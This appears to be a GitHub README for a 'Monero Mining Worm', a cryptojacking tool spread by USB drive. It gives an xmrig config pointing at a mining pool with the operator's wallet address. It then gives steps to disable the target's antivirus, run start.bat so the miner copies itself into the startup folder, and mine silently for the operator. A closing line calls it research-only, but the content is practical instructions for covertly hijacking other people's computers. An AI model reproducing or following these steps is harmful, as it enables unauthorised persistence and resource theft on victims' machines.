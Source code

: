 # Monero Mining Worm
Monero Mining worm. Spreads manually on a USB stick (only one file to start and the target computer is affected.)


# Setup

You will start by needing a Monero address and a monero mining pool, (MoneroOcean is default).

1. Navigate to xmrig/config.json and edit the following lines:

```json
{
   "url": "gulf.moneroocean.stream:10064 ", # mining pool url (leave as default if you don't know what a mining pool is)
   "user": "MONERO-ADDRESS-HERE", # your Monero address
   "pass": "hidden", # name of the machine that will be displayed on the mining pool
}
```

2. copy the code onto a USB drive
3. Setup Complete

# Spreading Process

1. Disable the antivirus on the target computer or add an exception for xmrig
2. Plug the USB drive into the computer or download your program from the cloud
3. Run start.bat. The worm will copy itself to the startup folder and will silently start mining Monero for you.
4. If you did not change the mining pool line in config.json, head over to https://moneroocean.stream/ and enter your Monero address, you should start earning after a few minutes.

# This project is intended for testing/research purposes only.
